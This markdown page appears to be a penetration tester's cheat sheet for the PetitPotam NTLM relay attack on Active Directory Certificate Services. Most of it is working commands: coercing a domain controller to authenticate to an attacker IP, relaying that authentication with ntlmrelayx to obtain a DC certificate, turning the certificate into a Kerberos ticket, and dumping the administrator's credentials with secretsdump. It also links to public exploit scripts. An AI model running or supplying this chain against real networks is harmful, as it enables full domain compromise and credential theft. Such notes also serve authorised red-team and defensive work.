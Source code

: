 ```yaml
---
tags:
  - AD
---
```


## Attack requirements

| Feature / Component       | Required for PetitPotam | Required for Full Relay to DA via AD CS |
| ------------------------- | ----------------------- | --------------------------------------- |
| EFSRPC                    | ✅ Yes                   | ✅ Yes                                   |
| NTLM Enabled              | ✅ Yes                   | ✅ Yes                                   |
| SMB/LDAP Signing Disabled | ✅ Yes (on relay target) | ✅ Yes (on certsrv or LDAP)              |
| AD CS Installed           | ❌ No                    | ✅ Yes                                   |
| Vulnerable AD CS Template | ❌ No                    | ✅ Yes                                   |
| EPA / Channel Binding Off | ❌ No                    | ✅ Yes                                   |

## Identify
---
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```
shorthand
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o M=pe
```

## Exploit
---
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
[https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)  
## Start ntlmrelayx
---
```PowerShell
sudo ntlmrelayx.py -debug -smb2support --target http://CA01.domain.local/certsrv/certfnsh.asp --adcs --template DomainController
```
At the same time try to coerce DC to auth
```PowerShell
python3 PetitPotam.py <attackerIP> <DCIP>
```
OR coerce with nxc
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> M=pe
```

You should receive a base64 encoded certificate in ntlmrelayx output
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
[https://github.com/dirkjanm/PKINITtools.git](https://github.com/dirkjanm/PKINITtools.git)
```PowerShell
python3 gettgtpkinit.py DOMAIN.LOCAL/DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set krb env variable
```PowerShell
export KRB5CCNAME=dc01.ccache
```
Attempt DCSync
```PowerShell
impacket-secretsdump -just-dc-user DOMAIN/administrator -k -no-pass "DC01$"@DC01.DOMAIN.LOCAL
```